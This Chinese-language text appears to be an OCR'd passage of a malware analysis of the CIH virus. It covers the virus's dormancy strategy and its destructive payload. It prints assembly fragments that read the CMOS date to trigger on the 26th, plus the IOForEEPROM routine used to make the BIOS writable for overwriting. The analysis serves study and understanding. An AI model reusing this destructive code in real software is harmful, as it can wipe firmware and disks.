 ## 潜伏与发作

同时，当系统调用参数为cloasefile时，进行当前时间判断：

```
CloseFile:
xor eax, eax
mov ah, 0d7h
call edi ; VXDCall IFSMgr_Ring0_FileIO

; *************************************
; * Need to Restore File Modification *
; * Time !? *
; *************************************

popf
pop esi
jnc IsKillComputer

IsKillComputer:
; Get Now Day from BIOS CMOS
mov al, 07h
out 70h, al
in al, 71h

xor al, 26h ; ??/26/????
```

在IsKillComputer可以看到CIH设计了一个潜伏策略，先感染，然后并不发作，以增加感染的机会，直到当前日期是26日时大家统一发作。

当时间悄然的来到26号时，CIH开始破坏BIOS和硬盘。

破坏BIOS的方法为：

1.将BIOS的内容映射到内存，然后设置BIOS可写。主要调用了IOForEEPROM和EnableEEPROMToWrite。

```
IOForEEPROM:
@10 = IOForEEPROM

xchg eax, edi
xchg edx, ebp
out dx, eax

xchg eax, edi
xchg edx, ebp
in al, dx

BooleanCalculateCode = $
or al, 44h

xchg eax, edi
xchg edx, ebp
out dx, eax

xchg eax, edi
xchg edx, ebp
out dx, al

ret
```
